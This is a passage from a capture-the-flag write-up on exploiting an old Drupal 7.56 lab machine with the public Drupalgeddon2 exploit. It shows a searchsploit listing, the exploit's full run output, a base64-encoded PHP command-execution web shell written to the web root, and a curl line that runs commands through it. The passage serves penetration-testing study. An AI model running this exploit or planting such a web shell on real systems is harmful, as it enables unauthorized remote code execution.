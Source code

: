     Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution         | php/webapps/46452.txt
    Drupal < 8.6.9 - REST Module Remote Code Execution                     | php/webapps/46459.py
    ...[snip]...
    ----------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results



There's clearly a lot here. Drupalgeddon 2 and 3 both look like
candidates.

## Shell as apache

### RCE - Drupalgeddon2

Given the number of exploits and the fact that the quality in
`searchsploit` can be a bit all over the map, I went to Google, and
found [this repo](https://github.com/dreadlocked/Drupalgeddon2). I'll
look at exactly what it's doing in Beyond Root, but the repo itself
works great. Running it provides a prompt:



    oxdf@parrot$ /opt/Drupalgeddon2/drupalgeddon2.rb http://10.10.10.233
    [*] --==[::#Drupalggedon2::]==--
    --------------------------------------------------------------------------------
    [i] Target : http://10.10.10.233/
    --------------------------------------------------------------------------------
    [+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
    [+] Drupal!: v7.56
    --------------------------------------------------------------------------------
    [*] Testing: Form   (user/password)
    [+] Result : Form valid
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
    [*] Testing: Clean URLs
    [!] Result : Clean URLs disabled (HTTP Response: 404)
    [i] Isn't an issue for Drupal v7.x
    --------------------------------------------------------------------------------
    [*] Testing: Code Execution   (Method: name)
    [i] Payload: echo SNQOQAOF
    [+] Result : SNQOQAOF
    [+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
    --------------------------------------------------------------------------------
    [*] Testing: Existing file   (http://10.10.10.233/shell.php)
    [!] Response: HTTP 200 // Size: 6.   ***Something could already be there?***
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
    [*] Testing: Writing To Web Root   (./)
    [i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
    [+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
    [+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
    --------------------------------------------------------------------------------
    [i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
    armageddon.htb>> 
